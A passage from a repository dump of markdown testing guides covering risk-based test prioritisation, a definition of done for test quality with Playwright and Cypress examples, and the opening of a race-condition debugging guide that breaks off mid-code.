**Examples:**

- Admin settings panels
- Report generation
- Theme customization
- Help documentation
- Analytics tracking

**Testing Requirements:**

- Happy path coverage
- Basic error handling
- Can defer edge cases

### P3 - Low (Test if Time Permits)

**Criteria:**

- Rarely used features
- Nice-to-have functionality
- Cosmetic issues
- Non-critical optimizations

**Examples:**

- Advanced preferences
- Legacy feature support
- Experimental features
- Debug utilities

**Testing Requirements:**

- Smoke tests only
- Can rely on manual testing
- Document known limitations

## Risk-Based Priority Adjustments

### Increase Priority When:

- High user impact (affects >50% of users)
- High financial impact (>$10K potential loss)
- Security vulnerability potential
- Compliance/legal requirements
- Customer-reported issues
- Complex implementation (>500 LOC)
- Multiple system dependencies

### Decrease Priority When:

- Feature flag protected
- Gradual rollout planned
- Strong monitoring in place
- Easy rollback capability
- Low usage metrics
- Simple implementation
- Well-isolated component

## Test Coverage by Priority

| Priority | Unit Coverage | Integration Coverage | E2E Coverage       |
| -------- | ------------- | -------------------- | ------------------ |
| P0       | >90%          | >80%                 | All critical paths |
| P1       | >80%          | >60%                 | Main happy paths   |
| P2       | >60%          | >40%                 | Smoke tests        |
| P3       | Best effort   | Best effort          | Manual only        |

## Priority Assignment Rules

1. **Start with business impact** - What happens if this fails?
2. **Consider probability** - How likely is failure?
3. **Factor in detectability** - Would we know if it failed?
4. **Account for recoverability** - Can we fix it quickly?

## Priority Decision Tree

```
Is it revenue-critical?
├─ YES → P0
└─ NO → Does it affect core user journey?
    ├─ YES → Is it high-risk?
    │   ├─ YES → P0
    │   └─ NO → P1
    └─ NO → Is it frequently used?
        ├─ YES → P1
        └─ NO → Is it customer-facing?
            ├─ YES → P2
            └─ NO → P3
```

## Test Execution Order

1. Execute P0 tests first (fail fast on critical issues)
2. Execute P1 tests second (core functionality)
3. Execute P2 tests if time permits
4. P3 tests only in full regression cycles

## Continuous Adjustment

Review and adjust priorities based on:

- Production incident patterns
- User feedback and complaints
- Usage analytics
- Test failure history
- Business priority changes

---

## Automated Priority Classification

### Example: Priority Calculator (Risk-Based Automation)

```typescript
// src/testing/priority-calculator.ts

export type Priority = 'P0' | 'P1' | 'P2' | 'P3';

export type PriorityFactors = {
  revenueImpact: 'critical' | 'high' | 'medium' | 'low' | 'none';
  userImpact: 'all' | 'majority' | 'some' | 'few' | 'minimal';
  securityRisk: boolean;
  complianceRequired: boolean;
  previousFailure: boolean;
  complexity: 'high' | 'medium' | 'low';
  usage: 'frequent' | 'regular' | 'occasional' | 'rare';
};

/**
 * Calculate test priority based on multiple factors
 * Mirrors the priority decision tree with objective criteria
 */
export function calculatePriority(factors: PriorityFactors): Priority {
  const { revenueImpact, userImpact, securityRisk, complianceRequired, previousFailure, complexity, usage } = factors;

  // P0: Revenue-critical, security, or compliance
  if (revenueImpact === 'critical' || securityRisk || complianceRequired || (previousFailure && revenueImpact === 'high')) {
    return 'P0';
  }

  // P0: High revenue + high complexity + frequent usage
  if (revenueImpact === 'high' && complexity === 'high' && usage === 'frequent') {
    return 'P0';
  }

  // P1: Core user journey (majority impacted + frequent usage)
  if (userImpact === 'all' || userImpact === 'majority') {
    if (usage === 'frequent' || complexity === 'high') {
      return 'P1';
    }
  }

  // P1: High revenue OR high complexity with regular usage
  if ((revenueImpact === 'high' && usage === 'regular') || (complexity === 'high' && usage === 'frequent')) {
    return 'P1';
  }

  // P2: Secondary features (some impact, occasional usage)
  if (userImpact === 'some' || usage === 'occasional') {
    return 'P2';
  }

  // P3: Rarely used, low impact
  return 'P3';
}

/**
 * Generate priority justification (for audit trail)
 */
export function justifyPriority(factors: PriorityFactors): string {
  const priority = calculatePriority(factors);
  const reasons: string[] = [];

  if (factors.revenueImpact === 'critical') reasons.push('critical revenue impact');
  if (factors.securityRisk) reasons.push('security-critical');
  if (factors.complianceRequired) reasons.push('compliance requirement');
  if (factors.previousFailure) reasons.push('regression prevention');
  if (factors.userImpact === 'all' || factors.userImpact === 'majority') {
    reasons.push(`impacts ${factors.userImpact} users`);
  }
  if (factors.complexity === 'high') reasons.push('high complexity');
  if (factors.usage === 'frequent') reasons.push('frequently used');

  return `${priority}: ${reasons.join(', ')}`;
}

/**
 * Example: Payment scenario priority calculation
 */
const paymentScenario: PriorityFactors = {
  revenueImpact: 'critical',
  userImpact: 'all',
  securityRisk: true,
  complianceRequired: true,
  previousFailure: false,
  complexity: 'high',
  usage: 'frequent',
};

console.log(calculatePriority(paymentScenario)); // 'P0'
console.log(justifyPriority(paymentScenario));
// 'P0: critical revenue impact, security-critical, compliance requirement, impacts all users, high complexity, frequently used'
```

### Example: Test Suite Tagging Strategy

```typescript
// tests/e2e/checkout.spec.ts
import { test, expect } from '@playwright/test';

// Tag tests with priority for selective execution
test.describe('Checkout Flow', () => {
  test('valid payment completes successfully @p0 @smoke @revenue', async ({ page }) => {
    // P0: Revenue-critical happy path
    await page.goto('/checkout');
    await page.getByTestId('payment-method').selectOption('credit-card');
    await page.getByTestId('card-number').fill('4242424242424242');
    await page.getByRole('button', { name: 'Place Order' }).click();

    await expect(page.getByText('Order confirmed')).toBeVisible();
  });

  test('expired card shows user-friendly error @p1 @error-handling', async ({ page }) => {
    // P1: Core error scenario (frequent user impact)
    await page.goto('/checkout');
    await page.getByTestId('payment-method').selectOption('credit-card');
    await page.getByTestId('card-number').fill('4000000000000069'); // Test card: expired
    await page.getByRole('button', { name: 'Place Order' }).click();

    await expect(page.getByText('Card expired. Please use a different card.')).toBeVisible();
  });

  test('coupon code applies discount correctly @p2', async ({ page }) => {
    // P2: Secondary feature (nice-to-have)
    await page.goto('/checkout');
    await page.getByTestId('coupon-code').fill('SAVE10');
    await page.getByRole('button', { name: 'Apply' }).click();

    await expect(page.getByText('10% discount applied')).toBeVisible();
  });

  test('gift message formatting preserved @p3', async ({ page }) => {
    // P3: Cosmetic feature (rarely used)
    await page.goto('/checkout');
    await page.getByTestId('gift-message').fill('Happy Birthday!\n\nWith love.');
    await page.getByRole('button', { name: 'Place Order' }).click();

    // Message formatting preserved (linebreaks intact)
    await expect(page.getByTestId('order-summary')).toContainText('Happy Birthday!');
  });
});
```

**Run tests by priority:**

```bash
# P0 only (smoke tests, 2-5 min)
npx playwright test --grep @p0

# P0 + P1 (core functionality, 10-15 min)
npx playwright test --grep "@p0|@p1"

# Full regression (all priorities, 30+ min)
npx playwright test
```

---

## Integration with Risk Scoring

Priority should align with risk score from `probability-impact.md`:

| Risk Score | Typical Priority | Rationale                                  |
| ---------- | ---------------- | ------------------------------------------ |
| 9          | P0               | Critical blocker (probability=3, impact=3) |
| 6-8        | P0 or P1         | High risk (requires mitigation)            |
| 4-5        | P1 or P2         | Medium risk (monitor closely)              |
| 1-3        | P2 or P3         | Low risk (document and defer)              |

**Example**: Risk score 9 (checkout API failure) → P0 priority → comprehensive coverage required.

---

## Priority Checklist

Before finalizing test priorities:

- [ ] **Revenue impact assessed**: Payment, subscription, billing features → P0
- [ ] **Security risks identified**: Auth, data exposure, injection attacks → P0
- [ ] **Compliance requirements documented**: GDPR, PCI-DSS, SOC2 → P0
- [ ] **User impact quantified**: >50% users → P0/P1, <10% → P2/P3
- [ ] **Previous failures reviewed**: Regression prevention → increase priority
- [ ] **Complexity evaluated**: >500 LOC or multiple dependencies → increase priority
- [ ] **Usage metrics consulted**: Frequent use → P0/P1, rare use → P2/P3
- [ ] **Monitoring coverage confirmed**: Strong monitoring → can decrease priority
- [ ] **Rollback capability verified**: Easy rollback → can decrease priority
- [ ] **Priorities tagged in tests**: @p0, @p1, @p2, @p3 for selective execution

## Integration Points

- **Used in workflows**: `*automate` (priority-based test generation), `*test-design` (scenario prioritization), `*trace` (coverage validation by priority)
- **Related fragments**: `risk-governance.md` (risk scoring), `probability-impact.md` (impact assessment), `selective-testing.md` (tag-based execution)
- **Tools**: Playwright/Cypress grep for tag filtering, CI scripts for priority-based execution

_Source: Risk-based testing practices, test prioritization strategies, production incident analysis_
```

## File: `src/agents/bmad-tea/resources/knowledge/test-quality.md`
```markdown
# Test Quality Definition of Done

## Principle

Tests must be deterministic, isolated, explicit, focused, and fast. Every test should execute in under 1.5 minutes, contain fewer than 300 lines, avoid hard waits and conditionals, keep assertions visible in test bodies, and clean up after itself for parallel execution.

## Rationale

Quality tests provide reliable signal about application health. Flaky tests erode confidence and waste engineering time. Tests that use hard waits (`waitForTimeout(3000)`) are non-deterministic and slow. Tests with hidden assertions or conditional logic become unmaintainable. Large tests (>300 lines) are hard to understand and debug. Slow tests (>1.5 min) block CI pipelines. Self-cleaning tests prevent state pollution in parallel runs.

## Pattern Examples

### Example 1: Deterministic Test Pattern

**Context**: When writing tests, eliminate all sources of non-determinism: hard waits, conditionals controlling flow, try-catch for flow control, and random data without seeds.

**Implementation**:

```typescript
// ❌ BAD: Non-deterministic test with conditionals and hard waits
test('user can view dashboard - FLAKY', async ({ page }) => {
  await page.goto('/dashboard');
  await page.waitForTimeout(3000); // NEVER - arbitrary wait

  // Conditional flow control - test behavior varies
  if (await page.locator('[data-testid="welcome-banner"]').isVisible()) {
    await page.click('[data-testid="dismiss-banner"]');
    await page.waitForTimeout(500);
  }

  // Try-catch for flow control - hides real issues
  try {
    await page.click('[data-testid="load-more"]');
  } catch (e) {
    // Silently continue - test passes even if button missing
  }

  // Random data without control
  const randomEmail = `user${Math.random()}@example.com`;
  await expect(page.getByText(randomEmail)).toBeVisible(); // Will fail randomly
});

// ✅ GOOD: Deterministic test with explicit waits
test('user can view dashboard', async ({ page, apiRequest }) => {
  const user = createUser({ email: 'test@example.com', hasSeenWelcome: true });

  // Setup via API (fast, controlled)
  await apiRequest.post('/api/users', { data: user });

  // Network-first: Intercept BEFORE navigate
  const dashboardPromise = page.waitForResponse((resp) => resp.url().includes('/api/dashboard') && resp.status() === 200);

  await page.goto('/dashboard');

  // Wait for actual response, not arbitrary time
  const dashboardResponse = await dashboardPromise;
  const dashboard = await dashboardResponse.json();

  // Explicit assertions with controlled data
  await expect(page.getByText(`Welcome, ${user.name}`)).toBeVisible();
  await expect(page.getByTestId('dashboard-items')).toHaveCount(dashboard.items.length);

  // No conditionals - test always executes same path
  // No try-catch - failures bubble up clearly
});

// Cypress equivalent
describe('Dashboard', () => {
  it('should display user dashboard', () => {
    const user = createUser({ email: 'test@example.com', hasSeenWelcome: true });

    // Setup via task (fast, controlled)
    cy.task('db:seed', { users: [user] });

    // Network-first interception
    cy.intercept('GET', '**/api/dashboard').as('getDashboard');

    cy.visit('/dashboard');

    // Deterministic wait for response
    cy.wait('@getDashboard').then((interception) => {
      const dashboard = interception.response.body;

      // Explicit assertions
      cy.contains(`Welcome, ${user.name}`).should('be.visible');
      cy.get('[data-cy="dashboard-items"]').should('have.length', dashboard.items.length);
    });
  });
});
```

**Key Points**:

- Replace `waitForTimeout()` with `waitForResponse()` or element state checks
- Never use if/else to control test flow - tests should be deterministic
- Avoid try-catch for flow control - let failures bubble up clearly
- Use factory functions with controlled data, not `Math.random()`
- Network-first pattern prevents race conditions

### Example 2: Isolated Test with Cleanup

**Context**: When tests create data, they must clean up after themselves to prevent state pollution in parallel runs. Use fixture auto-cleanup or explicit teardown.

**Implementation**:

```typescript
// ❌ BAD: Test leaves data behind, pollutes other tests
test('admin can create user - POLLUTES STATE', async ({ page, apiRequest }) => {
  await page.goto('/admin/users');

  // Hardcoded email - collides in parallel runs
  await page.fill('[data-testid="email"]', 'newuser@example.com');
  await page.fill('[data-testid="name"]', 'New User');
  await page.click('[data-testid="create-user"]');

  await expect(page.getByText('User created')).toBeVisible();

  // NO CLEANUP - user remains in database
  // Next test run fails: "Email already exists"
});

// ✅ GOOD: Test cleans up with fixture auto-cleanup
// playwright/support/fixtures/database-fixture.ts
import { test as base } from '@playwright/test';
import { deleteRecord, seedDatabase } from '../helpers/db-helpers';

type DatabaseFixture = {
  seedUser: (userData: Partial<User>) => Promise<User>;
};

export const test = base.extend<DatabaseFixture>({
  seedUser: async ({}, use) => {
    const createdUsers: string[] = [];

    const seedUser = async (userData: Partial<User>) => {
      const user = await seedDatabase('users', userData);
      createdUsers.push(user.id); // Track for cleanup
      return user;
    };

    await use(seedUser);

    // Auto-cleanup: Delete all users created during test
    for (const userId of createdUsers) {
      await deleteRecord('users', userId);
    }
    createdUsers.length = 0;
  },
});

// Use the fixture
test('admin can create user', async ({ page, seedUser }) => {
  // Create admin with unique data
  const admin = await seedUser({
    email: faker.internet.email(), // Unique each run
    role: 'admin',
  });

  await page.goto('/admin/users');

  const newUserEmail = faker.internet.email(); // Unique
  await page.fill('[data-testid="email"]', newUserEmail);
  await page.fill('[data-testid="name"]', 'New User');
  await page.click('[data-testid="create-user"]');

  await expect(page.getByText('User created')).toBeVisible();

  // Verify in database
  const createdUser = await seedUser({ email: newUserEmail });
  expect(createdUser.email).toBe(newUserEmail);

  // Auto-cleanup happens via fixture teardown
});

// Cypress equivalent with explicit cleanup
describe('Admin User Management', () => {
  const createdUserIds: string[] = [];

  afterEach(() => {
    // Cleanup: Delete all users created during test
    createdUserIds.forEach((userId) => {
      cy.task('db:delete', { table: 'users', id: userId });
    });
    createdUserIds.length = 0;
  });

  it('should create user', () => {
    const admin = createUser({ role: 'admin' });
    const newUser = createUser(); // Unique data via faker

    cy.task('db:seed', { users: [admin] }).then((result: any) => {
      createdUserIds.push(result.users[0].id);
    });

    cy.visit('/admin/users');
    cy.get('[data-cy="email"]').type(newUser.email);
    cy.get('[data-cy="name"]').type(newUser.name);
    cy.get('[data-cy="create-user"]').click();

    cy.contains('User created').should('be.visible');

    // Track for cleanup
    cy.task('db:findByEmail', newUser.email).then((user: any) => {
      createdUserIds.push(user.id);
    });
  });
});
```

**Key Points**:

- Use fixtures with auto-cleanup via teardown (after `use()`)
- Track all created resources in array during test execution
- Use `faker` for unique data - prevents parallel collisions
- Cypress: Use `afterEach()` with explicit cleanup
- Never hardcode IDs or emails - always generate unique values

### Example 3: Explicit Assertions in Tests

**Context**: When validating test results, keep assertions visible in test bodies. Never hide assertions in helper functions - this obscures test intent and makes failures harder to diagnose.

**Implementation**:

```typescript
// ❌ BAD: Assertions hidden in helper functions
// helpers/api-validators.ts
export async function validateUserCreation(response: Response, expectedEmail: string) {
  const user = await response.json();
  expect(response.status()).toBe(201);
  expect(user.email).toBe(expectedEmail);
  expect(user.id).toBeTruthy();
  expect(user.createdAt).toBeTruthy();
  // Hidden assertions - not visible in test
}

test('create user via API - OPAQUE', async ({ request }) => {
  const userData = createUser({ email: 'test@example.com' });

  const response = await request.post('/api/users', { data: userData });

  // What assertions are running? Have to check helper.
  await validateUserCreation(response, userData.email);
  // When this fails, error is: "validateUserCreation failed" - NOT helpful
});

// ✅ GOOD: Assertions explicit in test
test('create user via API', async ({ request }) => {
  const userData = createUser({ email: 'test@example.com' });

  const response = await request.post('/api/users', { data: userData });

  // All assertions visible - clear test intent
  expect(response.status()).toBe(201);

  const createdUser = await response.json();
  expect(createdUser.id).toBeTruthy();
  expect(createdUser.email).toBe(userData.email);
  expect(createdUser.name).toBe(userData.name);
  expect(createdUser.role).toBe('user');
  expect(createdUser.createdAt).toBeTruthy();
  expect(createdUser.isActive).toBe(true);

  // When this fails, error is: "Expected role to be 'user', got 'admin'" - HELPFUL
});

// ✅ ACCEPTABLE: Helper for data extraction, NOT assertions
// helpers/api-extractors.ts
export async function extractUserFromResponse(response: Response): Promise<User> {
  const user = await response.json();
  return user; // Just extracts, no assertions
}

test('create user with extraction helper', async ({ request }) => {
  const userData = createUser({ email: 'test@example.com' });

  const response = await request.post('/api/users', { data: userData });

  // Extract data with helper (OK)
  const createdUser = await extractUserFromResponse(response);

  // But keep assertions in test (REQUIRED)
  expect(response.status()).toBe(201);
  expect(createdUser.email).toBe(userData.email);
  expect(createdUser.role).toBe('user');
});

// Cypress equivalent
describe('User API', () => {
  it('should create user with explicit assertions', () => {
    const userData = createUser({ email: 'test@example.com' });

    cy.request('POST', '/api/users', userData).then((response) => {
      // All assertions visible in test
      expect(response.status).to.equal(201);
      expect(response.body.id).to.exist;
      expect(response.body.email).to.equal(userData.email);
      expect(response.body.name).to.equal(userData.name);
      expect(response.body.role).to.equal('user');
      expect(response.body.createdAt).to.exist;
      expect(response.body.isActive).to.be.true;
    });
  });
});

// ✅ GOOD: Parametrized tests for soft assertions (bulk validation)
test.describe('User creation validation', () => {
  const testCases = [
    { field: 'email', value: 'test@example.com', expected: 'test@example.com' },
    { field: 'name', value: 'Test User', expected: 'Test User' },
    { field: 'role', value: 'admin', expected: 'admin' },
    { field: 'isActive', value: true, expected: true },
  ];

  for (const { field, value, expected } of testCases) {
    test(`should set ${field} correctly`, async ({ request }) => {
      const userData = createUser({ [field]: value });

      const response = await request.post('/api/users', { data: userData });
      const user = await response.json();

      // Parametrized assertion - still explicit
      expect(user[field]).toBe(expected);
    });
  }
});
```

**Key Points**:

- Never hide `expect()` calls in helper functions
- Helpers can extract/transform data, but assertions stay in tests
- Parametrized tests are acceptable for bulk validation (still explicit)
- Explicit assertions make failures actionable: "Expected X, got Y"
- Hidden assertions produce vague failures: "Helper function failed"

### Example 4: Test Length Limits

**Context**: When tests grow beyond 300 lines, they become hard to understand, debug, and maintain. Refactor long tests by extracting setup helpers, splitting scenarios, or using fixtures.

**Implementation**:

```typescript
// ❌ BAD: 400-line monolithic test (truncated for example)
test('complete user journey - TOO LONG', async ({ page, request }) => {
  // 50 lines of setup
  const admin = createUser({ role: 'admin' });
  await request.post('/api/users', { data: admin });
  await page.goto('/login');
  await page.fill('[data-testid="email"]', admin.email);
  await page.fill('[data-testid="password"]', 'password123');
  await page.click('[data-testid="login"]');
  await expect(page).toHaveURL('/dashboard');

  // 100 lines of user creation
  await page.goto('/admin/users');
  const newUser = createUser();
  await page.fill('[data-testid="email"]', newUser.email);
  // ... 95 more lines of form filling, validation, etc.

  // 100 lines of permissions assignment
  await page.click('[data-testid="assign-permissions"]');
  // ... 95 more lines

  // 100 lines of notification preferences
  await page.click('[data-testid="notification-settings"]');
  // ... 95 more lines

  // 50 lines of cleanup
  await request.delete(`/api/users/${newUser.id}`);
  // ... 45 more lines

  // TOTAL: 400 lines - impossible to understand or debug
});

// ✅ GOOD: Split into focused tests with shared fixture
// playwright/support/fixtures/admin-fixture.ts
export const test = base.extend({
  adminPage: async ({ page, request }, use) => {
    // Shared setup: Login as admin
    const admin = createUser({ role: 'admin' });
    await request.post('/api/users', { data: admin });

    await page.goto('/login');
    await page.fill('[data-testid="email"]', admin.email);
    await page.fill('[data-testid="password"]', 'password123');
    await page.click('[data-testid="login"]');
    await expect(page).toHaveURL('/dashboard');

    await use(page); // Provide logged-in page

    // Cleanup handled by fixture
  },
});

// Test 1: User creation (50 lines)
test('admin can create user', async ({ adminPage, seedUser }) => {
  await adminPage.goto('/admin/users');

  const newUser = createUser();
  await adminPage.fill('[data-testid="email"]', newUser.email);
  await adminPage.fill('[data-testid="name"]', newUser.name);
  await adminPage.click('[data-testid="role-dropdown"]');
  await adminPage.click('[data-testid="role-user"]');
  await adminPage.click('[data-testid="create-user"]');

  await expect(adminPage.getByText('User created')).toBeVisible();
  await expect(adminPage.getByText(newUser.email)).toBeVisible();

  // Verify in database
  const created = await seedUser({ email: newUser.email });
  expect(created.role).toBe('user');
});

// Test 2: Permission assignment (60 lines)
test('admin can assign permissions', async ({ adminPage, seedUser }) => {
  const user = await seedUser({ email: faker.internet.email() });

  await adminPage.goto(`/admin/users/${user.id}`);
  await adminPage.click('[data-testid="assign-permissions"]');
  await adminPage.check('[data-testid="permission-read"]');
  await adminPage.check('[data-testid="permission-write"]');
  await adminPage.click('[data-testid="save-permissions"]');

  await expect(adminPage.getByText('Permissions updated')).toBeVisible();

  // Verify permissions assigned
  const response = await adminPage.request.get(`/api/users/${user.id}`);
  const updated = await response.json();
  expect(updated.permissions).toContain('read');
  expect(updated.permissions).toContain('write');
});

// Test 3: Notification preferences (70 lines)
test('admin can update notification preferences', async ({ adminPage, seedUser }) => {
  const user = await seedUser({ email: faker.internet.email() });

  await adminPage.goto(`/admin/users/${user.id}/notifications`);
  await adminPage.check('[data-testid="email-notifications"]');
  await adminPage.uncheck('[data-testid="sms-notifications"]');
  await adminPage.selectOption('[data-testid="frequency"]', 'daily');
  await adminPage.click('[data-testid="save-preferences"]');

  await expect(adminPage.getByText('Preferences saved')).toBeVisible();

  // Verify preferences
  const response = await adminPage.request.get(`/api/users/${user.id}/preferences`);
  const prefs = await response.json();
  expect(prefs.emailEnabled).toBe(true);
  expect(prefs.smsEnabled).toBe(false);
  expect(prefs.frequency).toBe('daily');
});

// TOTAL: 3 tests × 60 lines avg = 180 lines
// Each test is focused, debuggable, and under 300 lines
```

**Key Points**:

- Split monolithic tests into focused scenarios (<300 lines each)
- Extract common setup into fixtures (auto-runs for each test)
- Each test validates one concern (user creation, permissions, preferences)
- Failures are easier to diagnose: "Permission assignment failed" vs "Complete journey failed"
- Tests can run in parallel (isolated concerns)

### Example 5: Execution Time Optimization

**Context**: When tests take longer than 1.5 minutes, they slow CI pipelines and feedback loops. Optimize by using API setup instead of UI navigation, parallelizing independent operations, and avoiding unnecessary waits.

**Implementation**:

```typescript
// ❌ BAD: 4-minute test (slow setup, sequential operations)
test('user completes order - SLOW (4 min)', async ({ page }) => {
  // Step 1: Manual signup via UI (90 seconds)
  await page.goto('/signup');
  await page.fill('[data-testid="email"]', 'buyer@example.com');
  await page.fill('[data-testid="password"]', 'password123');
  await page.fill('[data-testid="confirm-password"]', 'password123');
  await page.fill('[data-testid="name"]', 'Buyer User');
  await page.click('[data-testid="signup"]');
  await page.waitForURL('/verify-email'); // Wait for email verification
  // ... manual email verification flow

  // Step 2: Manual product creation via UI (60 seconds)
  await page.goto('/admin/products');
  await page.fill('[data-testid="product-name"]', 'Widget');
  // ... 20 more fields
  await page.click('[data-testid="create-product"]');

  // Step 3: Navigate to checkout (30 seconds)
  await page.goto('/products');
  await page.waitForTimeout(5000); // Unnecessary hard wait
  await page.click('[data-testid="product-widget"]');
  await page.waitForTimeout(3000); // Unnecessary
  await page.click('[data-testid="add-to-cart"]');
  await page.waitForTimeout(2000); // Unnecessary

  // Step 4: Complete checkout (40 seconds)
  await page.goto('/checkout');
  await page.waitForTimeout(5000); // Unnecessary
  await page.fill('[data-testid="credit-card"]', '4111111111111111');
  // ... more form filling
  await page.click('[data-testid="submit-order"]');
  await page.waitForTimeout(10000); // Unnecessary

  await expect(page.getByText('Order Confirmed')).toBeVisible();

  // TOTAL: ~240 seconds (4 minutes)
});

// ✅ GOOD: 45-second test (API setup, parallel ops, deterministic waits)
test('user completes order', async ({ page, apiRequest }) => {
  // Step 1: API setup (parallel, 5 seconds total)
  const [user, product] = await Promise.all([
    // Create user via API (fast)
    apiRequest
      .post('/api/users', {
        data: createUser({
          email: 'buyer@example.com',
          emailVerified: true, // Skip verification
        }),
      })
      .then((r) => r.json()),

    // Create product via API (fast)
    apiRequest
      .post('/api/products', {
        data: createProduct({
          name: 'Widget',
          price: 29.99,
          stock: 10,
        }),
      })
      .then((r) => r.json()),
  ]);

  // Step 2: Auth setup via storage state (instant, 0 seconds)
  await page.context().addCookies([
    {
      name: 'auth_token',
      value: user.token,
      domain: 'localhost',
      path: '/',
    },
  ]);

  // Step 3: Network-first interception BEFORE navigation (10 seconds)
  const cartPromise = page.waitForResponse('**/api/cart');
  const orderPromise = page.waitForResponse('**/api/orders');

  await page.goto(`/products/${product.id}`);
  await page.click('[data-testid="add-to-cart"]');
  await cartPromise; // Deterministic wait (no hard wait)

  // Step 4: Checkout with network waits (30 seconds)
  await page.goto('/checkout');
  await page.fill('[data-testid="credit-card"]', '4111111111111111');
  await page.fill('[data-testid="cvv"]', '123');
  await page.fill('[data-testid="expiry"]', '12/25');
  await page.click('[data-testid="submit-order"]');
  await orderPromise; // Deterministic wait (no hard wait)

  await expect(page.getByText('Order Confirmed')).toBeVisible();
  await expect(page.getByText(`Order #${product.id}`)).toBeVisible();

  // TOTAL: ~45 seconds (6x faster)
});

// Cypress equivalent
describe('Order Flow', () => {
  it('should complete purchase quickly', () => {
    // Step 1: API setup (parallel, fast)
    const user = createUser({ emailVerified: true });
    const product = createProduct({ name: 'Widget', price: 29.99 });

    cy.task('db:seed', { users: [user], products: [product] });

    // Step 2: Auth setup via session (instant)
    cy.setCookie('auth_token', user.token);

    // Step 3: Network-first interception
    cy.intercept('POST', '**/api/cart').as('addToCart');
    cy.intercept('POST', '**/api/orders').as('createOrder');

    cy.visit(`/products/${product.id}`);
    cy.get('[data-cy="add-to-cart"]').click();
    cy.wait('@addToCart'); // Deterministic wait

    // Step 4: Checkout
    cy.visit('/checkout');
    cy.get('[data-cy="credit-card"]').type('4111111111111111');
    cy.get('[data-cy="cvv"]').type('123');
    cy.get('[data-cy="expiry"]').type('12/25');
    cy.get('[data-cy="submit-order"]').click();
    cy.wait('@createOrder'); // Deterministic wait

    cy.contains('Order Confirmed').should('be.visible');
    cy.contains(`Order #${product.id}`).should('be.visible');
  });
});

// Additional optimization: Shared auth state (0 seconds per test)
// playwright/support/global-setup.ts
export default async function globalSetup() {
  const browser = await chromium.launch();
  const page = await browser.newPage();

  // Create admin user once for all tests
  const admin = createUser({ role: 'admin', emailVerified: true });
  await page.request.post('/api/users', { data: admin });

  // Login once, save session
  await page.goto('/login');
  await page.fill('[data-testid="email"]', admin.email);
  await page.fill('[data-testid="password"]', 'password123');
  await page.click('[data-testid="login"]');

  // Save auth state for reuse
  await page.context().storageState({ path: 'playwright/.auth/admin.json' });

  await browser.close();
}

// Use shared auth in tests (instant)
test.use({ storageState: 'playwright/.auth/admin.json' });

test('admin action', async ({ page }) => {
  // Already logged in - no auth overhead (0 seconds)
  await page.goto('/admin');
  // ... test logic
});
```

**Key Points**:

- Use API for data setup (10-50x faster than UI)
- Run independent operations in parallel (`Promise.all`)
- Replace hard waits with deterministic waits (`waitForResponse`)
- Reuse auth sessions via `storageState` (Playwright) or `setCookie` (Cypress)
- Skip unnecessary flows (email verification, multi-step signups)

## Integration Points

- **Used in workflows**: `*atdd` (test generation quality), `*automate` (test expansion quality), `*test-review` (quality validation)
- **Related fragments**:
  - `network-first.md` - Deterministic waiting strategies
  - `data-factories.md` - Isolated, parallel-safe data patterns
  - `fixture-architecture.md` - Setup extraction and cleanup
  - `test-levels-framework.md` - Choosing appropriate test granularity for speed

## Core Quality Checklist

Every test must pass these criteria:

- [ ] **No Hard Waits** - Use `waitForResponse`, `waitForLoadState`, or element state (not `waitForTimeout`)
- [ ] **No Conditionals** - Tests execute the same path every time (no if/else, try/catch for flow control)
- [ ] **< 300 Lines** - Keep tests focused; split large tests or extract setup to fixtures
- [ ] **< 1.5 Minutes** - Optimize with API setup, parallel operations, and shared auth
- [ ] **Self-Cleaning** - Use fixtures with auto-cleanup or explicit `afterEach()` teardown
- [ ] **Explicit Assertions** - Keep `expect()` calls in test bodies, not hidden in helpers
- [ ] **Unique Data** - Use `faker` for dynamic data; never hardcode IDs or emails
- [ ] **Parallel-Safe** - Tests don't share state; run successfully with `--workers=4`

_Source: Murat quality checklist, Definition of Done requirements (lines 370-381, 406-422)._
```

## File: `src/agents/bmad-tea/resources/knowledge/timing-debugging.md`
```markdown
# Timing Debugging and Race Condition Fixes

## Principle

Race conditions arise when tests make assumptions about asynchronous timing (network, animations, state updates). **Deterministic waiting** eliminates flakiness by explicitly waiting for observable events (network responses, element state changes) instead of arbitrary timeouts.

## Rationale

**The Problem**: Tests pass locally but fail in CI (different timing), or pass/fail randomly (race conditions). Hard waits (`waitForTimeout`, `sleep`) mask timing issues without solving them.

**The Solution**: Replace all hard waits with event-based waits (`waitForResponse`, `waitFor({ state })`). Implement network-first pattern (intercept before navigate). Use explicit state checks (loading spinner detached, data loaded). This makes tests deterministic regardless of network speed or system load.

**Why This Matters**:

- Eliminates flaky tests (0 tolerance for timing-based failures)
- Works consistently across environments (local, CI, production-like)
- Faster test execution (no unnecessary waits)
- Clearer test intent (explicit about what we're waiting for)

## Pattern Examples

### Example 1: Race Condition Identification (Network-First Pattern)

**Context**: Prevent race conditions by intercepting network requests before navigation

**Implementation**:

```typescript
// tests/timing/race-condition-prevention.spec.ts
import { test, expect } from '@playwright/test';

test.describe('Race Condition Prevention Patterns', () => {
  test('❌ Anti-Pattern: Navigate then intercept (race condition)', async ({ page, context }) => {
    // BAD: Navigation starts before interception ready
    await page.goto('/products'); // ⚠️ Race! API might load before route is set

    await context.route('**/api/products', (route) => {
      route.fulfill({ status: 200, body: JSON.stringify({ products: [] }) });
    });

    // Test may see real API response or mock (non-deterministic)
  });

  test('✅ Pattern: Intercept BEFORE navigate (deterministic)', async ({ page, context }) => {
    // GOOD: Interception ready before navigation
    await context.route('**/api/products', (route) => {
      route.fulfill({
        status: 200,
        contentType: 'application/json',
        body: JSON.stringify({
          products: [
            { id: 1, name: 'Product A', price: 29.99 },
            { id: 2, name: 'Product B', price: 49.99 },
          ],
        }),
      });
    });

    const responsePromise = page.waitForResponse('**/api/products');

    await page.goto('/products'); // Navigation happens AFTER route is ready
    await responsePromise; // Explicit wait for network

    // Test sees mock response reliably (deterministic)
    await expect(page.getByText('Product A')).toBeVisible();
  });

  test('✅ Pattern: Wait for element state change (loading → loaded)', async ({ page }) => {
    await page.goto('/dashboard');

    // Wait for loading indicator to appear (confirms load started)
    await page.getByTestId('loading-spinner').waitFor({ state: 'visible' });

    // Wait for loading indicator to disappear (confirms load complete)
    await page.getByTestId('loading-spinner').waitFor({ state: 'detached' });

    // Content now reliably visible
    await expect(page.getByTestId('dashboard-data')).toBeVisible();
  });

  test('✅ Pattern: Explicit visibility check (not just presence)', async ({ page }) => {
    await page.goto('/modal-demo');

    await page.getByRole('button', { name: 'Open Modal' }).click();

    // ❌ Bad: Element exists but may not be visible yet
    // await expect(page.getByTestId('modal')).toBeAttached()

